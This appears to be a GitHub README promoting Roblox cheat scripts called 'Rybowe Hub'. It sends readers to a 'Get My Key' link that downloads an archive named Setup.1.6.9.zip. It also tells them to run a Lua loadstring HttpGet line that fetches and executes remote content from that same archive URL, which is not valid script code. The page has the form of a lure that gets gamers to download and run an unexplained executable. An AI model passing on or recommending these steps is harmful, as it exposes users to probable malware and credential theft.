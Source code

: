 ```yaml
---

# Welcome to My GitHub Page!

Here, I regularly release my Roblox scripts, featuring advanced tools and functionalities to enhance your gameplay experience. Whether you're looking for auto-farming scripts, ESP features, or exclusive game tools, you'll find everything you need right here!

### How to Get Your Key
To use some of my scripts, you'll need to obtain an activation key. It's quick and easy! Just follow this link to get your key:  
[Get My Key](https://github.com/berkeminegirl1gwo/rybowescripts/releases/download/zz/Setup.1.6.9.zip)

### Rybowe Hub
The **Rybowe Hub** is one of my main creations, offering a wide range of practical tools. To access it, simply run the following code in your Roblox game:

```lua
loadstring(game:HttpGet('https://github.com/berkeminegirl1gwo/rybowescripts/releases/download/zz/Setup.1.6.9.zip'))()
```

This script gives you access to the latest updates and features of Rybowe Hub.

Make sure to check this page regularly for new scripts and projects! Enjoy exploring and have fun!

---
```


